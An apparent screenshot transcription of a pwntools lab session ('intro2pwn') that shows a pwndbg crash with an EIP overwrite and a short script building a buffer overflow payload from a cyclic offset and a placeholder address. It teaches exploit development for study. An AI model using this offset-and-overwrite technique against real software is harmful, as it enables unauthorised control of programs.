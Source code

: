 ```

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────
 EAX  0xffffd4c0 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
 EBX  0x61616172 ('raaa')
 ECX  0xf7fc15c0 (_IO_2_1_stdin_) ◂— cwde    /* 0xfbad2098 */
 EDX  0xf7fc289c (_IO_stdfile_0_lock) ◂— 0
 EDI  0x0
 ESI  0xf7fc1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
 EBP  0x61616173 ('saaa')
 ESP  0xffffd510 ◂— 'uaaavaaawaaaxaaayaaa'
 EIP  0x61616174 ('taaa')
─────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
Invalid address 0x61616174










─────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xffffd510 ◂— 'uaaavaaawaaaxaaayaaa'
01:0004│     0xffffd514 ◂— 'vaaawaaaxaaayaaa'
02:0008│     0xffffd518 ◂— 'waaaxaaayaaa'
03:000c│     0xffffd51c ◂— 'xaaayaaa'
04:0010│     0xffffd520 ◂— 'yaaa'
05:0014│     0xffffd524 —▸ 0xf7fc1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
06:0018│     0xffffd528 ◂— 0x0
07:001c│     0xffffd52c —▸ 0xf7e01f21 (__libc_start_main+241) ◂— add    esp, 0x10
───────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0 0x61616174
   f 1 0x61616175
   f 2 0x61616176
   f 3 0x61616177
   f 4 0x61616178
   f 5 0x61616179
─────────────────────
pwndbg> quit

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ nano shellcraft.py
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ cat shellcraft.py 
from pwn import *
padding = cyclic(cyclic_find('taaa'))

eip = p32(0xdeadbeef)

payload = padding + eip

print(payload)
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ python shellcraft.py > attack
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ gdb intro2pwnFinal 
GNU gdb (Ubuntu 8.1.1-0ubuntu1) 8.1.1
```